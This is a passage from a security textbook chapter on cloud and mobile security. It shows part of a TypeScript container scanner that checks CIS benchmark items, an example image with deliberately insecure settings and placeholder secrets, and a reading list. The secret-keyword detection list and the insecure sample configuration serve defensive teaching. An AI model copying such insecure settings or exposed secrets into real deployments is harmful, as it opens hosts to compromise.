    // Check 3: Sensitive environment variables
    const sensitivePatterns = [
      'PASSWORD',
      'SECRET',
      'TOKEN',
      'API_KEY',
      'CREDENTIAL',
      'AUTH',
      'PRIVATE_KEY',
    ];
    for (const env of image.envVars) {
      const key = env.split('=')[0];
      for (const pattern of sensitivePatterns) {
        if (key.toUpperCase().includes(pattern)) {
          issues.push(
            `HIGH: Potential secret exposure in env var "${key}" — use Docker secrets or a vault`
          );
          break;
        }
      }
    }

    // Check 4: Exposed Docker socket (CIS 6.1)
    if (image.exposedPorts.includes(2375) || image.exposedPorts.includes(2376)) {
      issues.push(
        'CRITICAL: Docker socket exposed (port 2375/2376) — host compromise via container escape'
      );
    }

    // Check 5: Missing AppArmor profile (CIS 5.9)
    if (!image.appArmorProfile) {
      issues.push(
        'MEDIUM: No AppArmor profile applied — consider docker-default or a custom profile'
      );
    }

    // Check 6: Missing seccomp profile (CIS 5.8)
    if (!image.seccompProfile) {
      issues.push(
        'MEDIUM: No seccomp profile applied — restrict syscalls with a default or custom profile'
      );
    }

    // Check 7: Writable root filesystem (CIS 5.12)
    if (!image.readOnlyRootFilesystem) {
      issues.push(
        'MEDIUM: Root filesystem is writable — set readOnlyRootFilesystem: true and mount tmpfs for temp data'
      );
    }

    // Check 8: Dangerous capabilities (CIS 5.3–5.7)
    const dangerousCaps = [
      'SYS_ADMIN',
      'NET_ADMIN',
      'SYS_PTRACE',
      'SYS_MODULE',
      'SYS_RAWIO',
      'DAC_OVERRIDE',
    ];
    for (const cap of image.capabilities || []) {
      if (dangerousCaps.includes(cap)) {
        issues.push(
          `HIGH: Dangerous capability "${cap}" granted — drop all (--cap-drop=ALL) and add only required caps`
        );
      }
    }

    return issues;
  }
}

// --- Example usage ---
const scanner = new ContainerScanner();
const image: ContainerImage = {
  layers: ['ubuntu:20.04', 'node:18-alpine'],
  exposedPorts: [80, 443, 2375],
  envVars: [
    'NODE_ENV=production',
    'DB_PASSWORD=s3cret!',
    'API_SECRET_TOKEN=abc123def456',
  ],
  entrypoint: '/app/server',
  user: 'root',
  privileged: true,
  readOnlyRootFilesystem: false,
  capabilities: ['SYS_ADMIN', 'NET_BIND_SERVICE', 'SYS_PTRACE'],
};

// Run vulnerability scan
const vulns = scanner.scanImage(image);
console.log(`Found ${vulns.length} CVEs in image layers:`);
vulns.forEach((v) =>
  console.log(`  ${v.cve} (${v.severity}) — ${v.package} → fix: ${v.fixVersion}`)
);

// Run configuration audit
const configIssues = scanner.checkConfig(image);
console.log(`\nFound ${configIssues.length} configuration issues:`);
configIssues.forEach((i) => console.log(`  ${i}`));
```

---

## Mermaid Diagrams

### Cloud Shared Responsibility Model



### Mobile App Sandbox Architecture



---

## Further Reading

- **NIST SP 800-145** — NIST Definition of Cloud Computing
- **OWASP Serverless Top 10** — Serverless security risks and mitigations
- **OWASP Mobile Top 10 (2024)** — Mobile application security risks
- **CIS Benchmarks** — aws.cisecurity.org, azure.cisecurity.org, gcp.cisecurity.org
- **NSA/CISA Kubernetes Hardening Guidance** — K8s security best practices (August 2021, updated 2022)
- **Falco Documentation** — Runtime security and rule authoring
- **MITRE ATT&CK: Cloud Matrix** — Cloud-specific adversary techniques
- **Amnesty International Pegasus Project** — Mobile spyware investigation reports
- **Aqua Security Trivy Documentation** — Container and K8s vulnerability scanning
- **Apple Platform Security Guide** — iOS security architecture deep dive
- **Android Security and Privacy** — AOSP security documentation
- **dolosgroup.io/blog/capital-one-breach** — Deep dive into Capital One 2019

---

*End of Chapter 7 — Cloud & Mobile Security*

